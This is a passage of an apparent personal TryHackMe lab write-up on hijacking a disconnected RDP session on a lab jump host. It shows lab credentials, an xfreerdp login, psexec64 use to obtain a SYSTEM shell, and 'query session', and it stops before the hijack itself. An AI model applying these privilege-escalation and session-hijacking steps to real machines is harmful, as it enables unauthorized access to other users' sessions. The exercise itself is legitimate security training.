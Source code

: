 To complete this exercise, you will need to connect to THMJMP2 using a new set of credentials obtained from [http://distributor.za.tryhackme.com/creds_t2](http://distributor.za.tryhackme.com/creds_t2) (**Notice that this link is different from the other tasks**). Once you have your credentials, connect to THMJMP2 via RDP:

`xfreerdp /v:thmjmp2.za.tryhackme.com /u:YOUR_USER /p:YOUR_PASSWORD`

These credentials will grant you administrative access to THMJMP2.

For this task, we'll work on hijacking an RDP session. If you are interested in trying backdooring exe or other files, you can find some exercises about this in the [Windows Local Persistence](https://tryhackme.com/jr/windowslocalpersistence) room.

Follow the instructions to hijack t1_toby.beck's RDP session on THMJMP2 to get your flag.

**Note:** When executing `query session`, you'll see several users named t1_toby.beck followed by a number. These are just identical copies of the same user, and you can hijack any of them (you don't need to hijack them all). Make sure you hijack a session marked as **disconnected (Disc.)** to avoid interfering with other users.

### Practical
---

Let's get our credentials:

![[Pasted image 20250516145932.png]]

I got:

```
t2_kelly.blake:8LXuPeNHZFFG
```

Let's go into rdp:

```
xfreerdp /v:thmjmp2.za.tryhackme.com /u:t2_kelly.blake /p:8LXuPeNHZFFG -clipboard
```

![[Pasted image 20250516150128.png]]

Let's open a `cmd` and do:

```powershell
C:\tools\psexec64.exe -accepteula -s -i cmd.exe
```

We now get a shell as `nt authority\system`:

![[Pasted image 20250516150429.png]]

Let's do:

```
query session
```

![[Pasted image 20250516150509.png]]
